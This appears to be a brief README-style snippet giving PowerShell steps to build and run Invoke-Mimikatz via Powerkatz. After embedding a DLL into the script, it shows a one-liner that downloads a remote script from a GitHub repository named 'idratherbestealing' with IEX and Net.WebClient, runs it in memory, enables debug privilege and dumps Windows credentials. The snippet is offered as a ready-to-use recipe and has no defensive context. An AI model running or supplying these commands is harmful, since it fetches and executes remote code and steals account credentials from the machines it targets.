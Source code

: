 # BUILD
cd $env:UserProfile\Desktop\Powerkatz
Import-Module .\Invoke-UpdateMimikatzScript.ps1 
Invoke-UpdateMimikatzScript -DllPath $env:UserProfile\Desktop\Powerkatz\x64\powerkatz.dll -ScriptPath $env:UserProfile\Desktop\Powerkatz\Invoke-Mimikatz.ps1
Invoke-UpdateMimikatzScript -DllPath $env:UserProfile\Desktop\Powerkatz\win32\powerkatz.dll -ScriptPath $env:UserProfile\Desktop\Powerkatz\Invoke-Mimikatz.ps1

# Execute
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/idratherbestealing/mimikatz/main/Invoke-Mimikatz.ps1"); Invoke-Mimikatz -Command privilege::debug; Invoke-Mimikatz -DumpCreds;
